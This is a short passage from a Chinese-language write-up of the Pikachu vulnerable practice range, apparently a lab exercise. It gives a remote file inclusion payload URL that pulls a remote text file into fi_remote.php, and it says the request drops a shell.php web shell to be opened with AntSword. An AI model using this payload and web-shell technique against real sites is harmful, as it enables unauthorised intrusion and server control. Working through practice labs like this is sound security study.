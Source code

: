 <img src="pikachu靶场/image-20221129004018375.png" alt="image-20221129004018375" style="zoom:67%;" />		

<br>

最终构成的远程包含payload为`http://127.0.0.1/pikachu/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/GenerateWebshell.txt&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`

网页访问该payload后会在`fi_remote.php`的同级目录下生成shell.php文件, 后续可用蚁剑进行连接

![动画](pikachu靶场/动画-16696541645381.gif)

